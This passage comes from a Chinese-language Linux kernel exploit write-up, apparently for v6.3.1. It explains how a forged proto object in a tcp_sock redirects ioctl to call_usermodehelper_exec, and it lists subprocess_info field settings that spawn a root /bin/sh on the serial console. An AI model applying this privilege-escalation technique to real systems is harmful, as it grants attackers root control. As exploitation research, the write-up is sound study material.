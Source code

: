 - （13）伪造完成后，在调用ioctl时，将会触发`call_usermodehelper_exec`函数，延迟执行`/bin/sh -c /bin/sh &>/dev/ttyS0 </dev/ttyS0` ，即可获取一个root shell。

## 4. 其他

### 4-1. `tcp_sock`结构

**结构包含关系**：[tcp_sock](https://elixir.bootlin.com/linux/v6.3.1/source/include/linux/tcp.h#L175) -> [inet_connection_sock](https://elixir.bootlin.com/linux/v6.3.1/source/include/net/inet_connection_sock.h#L83) -> [inet_sock](https://elixir.bootlin.com/linux/v6.3.1/source/include/net/inet_sock.h#L208) -> [sock](https://elixir.bootlin.com/linux/v6.3.1/source/include/net/sock.h#L356)

在v6.3-rc1中 `tcp_sock` 大小为2208字节（我编译的V6.3.1内核中`tcp_sock`大小为2248字节），可将伪造的`proto`对象放在`sock`对象后面。在调用伪造的`ioctl`之后需要恢复`tcp_sock`，避免内核崩溃，所以需要提前保存`tcp_sock`结构。

### 4-2. `subprocess_info`设置

设置`subprocess_info`来构造参数，目标是执行`/bin/sh -c /bin/sh &>/dev/ttyS0 </dev/ttyS0`。分解如下：

```c
/bin/sh -c /bin/sh &>/dev/ttyS0 </dev/ttyS0
 ^      ^  |______________________________|	
 |      |               |
 |      |               |
path   arg1            arg2
arg0	
```

**获得shell原理**：利用`/bin/sh`生成另一个`/bin/sh`进程，并将`stdin`/`stdout`重定向到我们的虚拟控制台/串口。

**`subprocess_info`提权设置**：必须设置`work.func`指向`call_usermodehelper_exec_work`。注意，之前设置了 `proto->ioctl` 指向 `call_usermodehelper_exec()`。`call_usermodehelper_exec()`函数负责对 `deffered work` 排队，而调用`call_usermodehelper_exec_work()`函数来处理`deffered work`，也即真正负责生成新进程。`path`成员仍然指向`proto`结构，最后触发调用`ioctl`提权并获得shell。

```c
// 注意：subprocess_info 对象和 sock 对象的地址相同
// proto 开头是 path 字符串
// proto->ioctl = call_usermodehelper_exec
work.data          <-> set to 0 											// 0
work.entry.next    <-> set to it's own address 								// 指向自身
work.entry.prev    <-> set to the address of work.entry.next 				// 指向 work.entry.next
work.func          <-> set to call_usermodehelper_exec_work					// call_usermodehelper_exec_work
complete           <-> irrelevant
path               <-> don't overwrite or overwrite it with the same value  // 偏移40, 指向伪造的proto对象。`sock_common->skc_prot` & `subprocess_info->path` 值相同, `proto->ioctl` 偏移为40, proto对象前面40字节可以放path, 也即"/bin/sh"
argv               <-> write the address where the argv array was set up 	// 参数数组的地址。proto对象后面可以放argv参数
envp               <-> set to 0, we have no env variables 					// 0
wait               <-> irrelevant
retval             <-> irrelevant
*init              <-> set to 0 											// 0
*cleanup           <-> set to 0 											// 0
data               <-> irrelevant
```
